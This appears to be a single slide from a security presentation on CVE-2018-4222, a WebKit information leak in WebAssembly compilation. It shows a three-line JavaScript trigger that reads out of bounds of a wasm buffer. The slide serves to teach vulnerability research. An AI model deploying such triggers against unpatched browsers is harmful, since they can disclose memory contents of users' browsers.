

# What could go wrong?
CVE-2018-4222 -- WebKit: Info leak in WebAssembly Compilation

Can read out of bounds of the wasm buffer
var b2 = new ArrayBuffer(1000);
var view = new Int8Array(b2, 700);
var mod = new WebAssembly.Module(view);